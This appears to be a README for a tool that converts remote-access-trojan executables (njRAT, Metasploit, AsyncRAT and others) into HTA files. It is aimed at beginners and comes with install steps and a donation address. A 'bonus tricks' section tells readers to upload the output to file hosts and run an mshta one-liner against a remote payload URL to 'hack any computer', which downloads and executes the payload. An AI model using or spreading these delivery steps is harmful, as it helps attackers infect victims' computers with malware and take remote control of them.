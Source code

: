 ### Welcome to EXE>HTA Converter tool version 1.0

This tool will convert EXE file to HTA extension it's very simple to use, and a lot faster.

<img src="screenshots/Start.png" width=400 align="center">

<img src="screenshots/Payload.png" width=400 align="center">

<img src="screenshots/Finish.png" width=400 align="center">

### ❗ What is this ?

EXE>HTA is a tool that automate procedures during converting a payload from EXE into HTA extension. It works with njRAT & Metasploit and some other RAT's. This tool was made for Windows users.

Video Proof: https://youtu.be/3xzOEhswhnw

### ⚙️ FEATURES

- Convert EXE to HTA
- Compatible with njRAT
- Compatible with Metasploit
- Compatible with AsyncRAT
- Compatible with RevengeRAT
- Compatible with Lime-RAT & a lot more...
- Easy to use & it doesn't need knowledge

### 📖 HOW TO INSTALL

1. Donwload & install python3 ('https://www.python.org/downloads/')
2. Download 'njRAT C# Stub' from github ('git clone https://github.com/NYAN-x-CAT/njRAT-0.7d-Stub-CSharp')
2. Download the tool
3. Unzip the file
4. Open the EXETOHTA.exe file
4. Select your python.exe path
5. Select your payload.exe path
6. press CONVERT button.

To learn more please watch this video: https://youtu.be/3xzOEhswhnw

### 📡 HOW TO UPDATE

You can check updates from our official website:
https://ctoslab.com/products/


For feature recommendation please add it on the "Issues" tab or contact us:
https://www.ctoslab.com/support/

### 💡 Bonus Useful Tricks! (For Beginners)

You can upload 'output.hta' to a file uploader website (ex. zippyshare, upload.ee ...) and hack any computer using only OneLineCode.
Exemple:
Press START+R to open Run
And write: mshta exemple.com/payload.hta
It will download and execute the payload automatically.

### 💰 Donate

If you like my work, consider buying me a coffee :)

Bitcoin > 12ZGhmVWi8QboVoExWjUFinyJpaKLqAmHN

⚠️ We are not responsible on how you use this tool. 
